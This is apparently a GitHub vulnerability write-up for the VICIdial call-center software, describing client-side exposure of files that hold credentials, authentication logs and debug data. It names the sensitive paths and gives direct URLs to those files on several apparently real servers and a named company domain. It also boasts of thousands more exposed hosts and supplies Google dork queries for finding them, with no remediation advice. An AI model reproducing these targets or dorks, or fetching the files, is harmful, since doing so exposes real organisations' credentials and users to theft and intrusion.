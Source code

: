 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

## Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt

http://172.104.24.101/vicidial/agent_reports/

http://172.104.24.101/agc/vicidial_mysqli_errors.txt

http://172.104.24.101/agc/vicidial_debug.txt

http://172.104.24.101/agc/vicidial_auth_entries.txt



http://35.156.102.118/vicidial/project_auth_entries.txt

http://35.156.102.118/vicidial/agent_reports/

http://35.156.102.118/vicidial/closer_SQL_updates.txt

http://35.156.102.118/agc/vicidial_mysqli_errors.txt

http://35.156.102.118/agc/vicidial_debug.txt

http://35.156.102.118/agc/vicidial_auth_entries.txt



https://callsrevenue.com/vicidial/project_auth_entries.txt

https://callsrevenue.com/agc/vicidial_mysqli_errors.txt

https://callsrevenue.com/agc/vicidial_debug.txt

https://callsrevenue.com/agc/vicidial_auth_entries.txt



http://69.60.110.115/vicidial/agent_reports/

http://69.60.110.115/vicidial/closer_SQL_updates.txt

http://69.60.110.115/agc/vicidial_mysqli_errors.txt

http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

## Google Dorks to help find more!

"Agent web client:  Phone Login"

"Index of /vicidial"

inurl:/vicidial/welcome.php

intitle:Agent Timeclock


